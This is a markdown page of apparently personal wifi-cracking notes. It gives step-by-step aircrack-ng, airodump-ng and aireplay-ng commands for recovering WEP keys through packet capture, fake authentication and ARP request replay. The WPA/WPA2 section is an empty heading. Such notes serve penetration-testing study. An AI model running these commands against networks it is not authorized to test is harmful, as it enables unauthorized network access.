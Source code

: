 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay). This is done by:

* wait for an arp packet.
* capture it, and replay it (retransmit it).
* this causes the AP to produce another packet with a new IV.
* keep doing this till you have enough IVs to crack the key.

4. To carry out the attack, after following steps 1 and 2 for the busy wep networks, then;

`-b` denotes the target mac addr, `--arpreplay` for an arp replay attack.

```
aireplay-ng --arpreplay -b 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

Just wait for some time, then after receiving enough  packets in the `#Data` column, you can now run `aircrack-ng` to crack password. Allow the `airodump-ng` utility to continue running while running the `aircrack-ng` utility.



### wpa / wpa2 hacking.





